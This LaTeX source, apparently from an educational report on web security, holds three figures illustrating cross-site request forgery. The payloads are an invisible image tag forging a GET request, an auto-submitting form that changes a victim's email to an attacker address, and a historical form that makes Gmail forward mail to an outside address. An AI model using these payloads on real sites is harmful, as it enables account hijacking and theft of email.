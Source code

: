 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
\begin{figure}[h!t]
  \begin{verbatim}
<p>Take a look at my picture:<br />
<img src="http://vulnerable_site.com/?p=interests&action=remove&id=12" 
    width=0 height=0 /> <!-- Invisible GET request-->
<img src="http://real_image.png" alt="My image" />
  \end{verbatim}
  \caption{%
  Example of CSRF attack forging a GET HTTP request. Browser will execute the following GET request:\\
  ``GET http://vulnerable\_site.com/?p=interests\&action=remove\&id=12''\\
  This request will be totally invisible for the victim and this will remove one of his or her interest.
  }
  \label{figure:get_request}
\end{figure}

\begin{figure}[h!t]
  \begin{verbatim}
<form name="hackForm" method="POST" 
    action="http://vulnerable_site.com/?p=account&action=email">
        <input type="hidden" name="email" value="mail@attacker.com">
</form>
<script type="text/javascript">
    document.hackForm.submit(); // submit form
</script>
  \end{verbatim}
  \caption{%
  Example of a CSRF attack forging a POST HTTP request. Execution of JavaScript is needed.
  This request will not be invisible for the victim but it will still forge a request to change 
  the email of the victim in the vulnerable website. If the attacker is faster than the victim, he 
  or she can retrieve the account with the feature ``Retrieve my password''.
  }
  \label{figure:post_request}
\end{figure}

  \begin{figure}[h!t]
  \begin{verbatim}
<form method="POST" 
    action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" 
    enctype="multipart/form-data"> 
  <input type="hidden" name="cf2_emc" value="true"/> 
  <input type="hidden" name="cf2_email" value="allyourmails@arebelongto.us"/> 
  <input type="hidden" name="cf1_from" value=""/> 
  <input type="hidden" name="cf1_to" value=""/> 
  <input type="hidden" name="cf1_subj" value=""/> 
  <input type="hidden" name="cf1_has" value=""/> 
  <input type="hidden" name="cf1_hasnot" value=""/> 
  <input type="hidden" name="cf1_attach" value="true"/> 
  <input type="hidden" name="tfi" value=""/> 
  <input type="hidden" name="s" value="z"/> 
  <input type="hidden" name="irf" value="on"/> 
  <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form>
  \end{verbatim}
  \caption{The form layout presented by Gnucitizen~\cite{gnucitizen} (educational site on security related matters).}
  \label{figure:form}
  \end{figure}
  
\end{document}
